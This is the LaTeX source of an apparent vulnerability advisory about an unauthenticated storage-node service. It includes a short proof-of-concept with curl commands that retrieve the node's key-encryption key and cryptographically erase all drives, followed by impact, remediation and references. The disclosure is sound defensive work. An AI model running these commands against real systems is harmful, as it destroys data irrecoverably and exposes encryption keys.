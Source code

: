 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[style=shell]
# Retrieve node KEK without credentials:
curl -s http://<ctlvm_ip>:8012/get_config
# -> Response JSON contains nodeKek: "<base64_kek>"

# Cryptographic erase all drives without credentials (CONTROLLED ENV ONLY):
curl -s -X POST http://<ctlvm_ip>:8012/sec_erase_all \
  -H 'Content-Type: application/json' -d '{}'
# -> All SED drives on the node are cryptographically erased; data unrecoverable
\end{lstlisting}

\subsection*{Impact}

Any machine on the management network can cryptographically erase all data on
a cluster node with a single unauthenticated POST request. The same service
exposes the node KEK, enabling offline decryption of drive contents.

\subsection*{Remediation}

\begin{enumerate}[noitemsep]
\item Bind \texttt{sedsvc} to \texttt{127.0.0.1} only, or replace the TCP
  listener with a Unix domain socket.
\item Add authentication (shared secret or bearer token) validated before
  any handler is dispatched.
\item Gate \texttt{/sec\_erase} and \texttt{/sec\_erase\_all} behind an
  additional short-TTL confirmation token to prevent single-packet erasure.
\end{enumerate}

\subsection*{References}

\begin{itemize}[noitemsep]
\item CWE-306: Missing Authentication for Critical Function ---
  \url{https://cwe.mitre.org/data/definitions/306.html}
\item TCG Opal Storage Specification 2.0: section on key management
\end{itemize}
\end{document}
